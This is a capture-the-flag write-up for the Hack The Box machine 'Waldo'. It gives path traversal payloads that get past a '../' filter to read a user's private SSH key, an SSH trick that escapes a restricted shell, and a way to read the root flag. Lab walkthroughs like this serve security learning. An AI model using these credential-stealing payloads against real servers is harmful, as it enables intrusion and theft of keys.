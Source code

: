 ```yaml
---
title: Waldo
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux, medium]
tags: [hack-the-box, lfi]
math: true
---
```

# waldo

In the source code of the http website there is this javascript code:

```javascript
function readFile(file){ 
  var xhttp = new XMLHttpRequest();
  xhttp.open("POST","fileRead.php",false);
  xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  xhttp.send('file=' + file);
  if (xhttp.readyState === 4 && xhttp.status === 200) {
    return xhttp.responseText;
  }else{
  }
}
```
we can use this to read other php files on the server

we intercept the request with burpe and we find out that we can provide an output to `/dirRead.php` to get files.
when playing around with requests we can see that there is a filter on the ../../
```path=....//....//....//....//....//home/nobody//.ssh returns; [".","..",".monitor","authorized_keys","known_hosts"]```
so we can see that the .moinitor might be the private key

we then do this command in /fileRead.php:
```file=....//....//....//....//....//home/nobody/.ssh/.monitor```
which gives us the ssh key for the user nobody 
we can also use the script provided to have a command line interface to get the ssh key
it appears taht there is another user on the box 'monitor' so we try log back in with teh same ssh key to escape our restricted bash shell

```ssh -i /home/nobody/.ssh/.monitor monitor@127.0.0.1 -t bash --noprofile```
the path is screwed so we have to do:
```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH```
now we can go and have a look around
we eventually figure out that we can use the tac binary to read files

`tac /root/root.txt`
